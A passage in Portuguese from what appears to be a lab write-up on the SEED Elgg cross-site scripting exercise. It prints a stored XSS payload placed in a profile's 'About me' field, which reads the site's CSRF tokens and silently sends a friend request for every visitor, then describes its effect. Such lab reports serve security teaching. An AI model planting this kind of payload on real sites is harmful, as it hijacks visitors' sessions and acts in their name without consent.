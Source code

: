 O script inserido no perfil de Samy, na aba *About me*, ficou assim:

```jsx
<script type="text/javascript">
	window.onload = function () {
	var Ajax=null;
	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; //1
	var token="&__elgg_token="+elgg.security.token.__elgg_token; //2
	
	//Construct the HTTP request to add Samy as a friend
	var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=47" + token + ts;  //FILL IN
	
	//Create and send Ajax request to add friend
	Ajax=new XMLHttpRequest();
	Ajax.open("GET",sendurl,true);
	Ajax.setRequestHeader("Host","www.xsslabelgg.com");
	Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
	Ajax.send();
}
</script>
```

É interessante observar que logo após salvar a alteração no perfil, realizando assim um POST no servidor, a funcionalidade de adicionar à lista de amigos ocorre com o próprio Samy adicionando a si mesmo:

![Cross-Site-Scripting-Attack-Images/Sem_ttulo.png](Cross-Site-Scripting-Attack-Images/Sem_ttulo.png)

Quando fazemos o login em outra conta e acessamos o perfil de Samy o mesmo comportamento se repete:
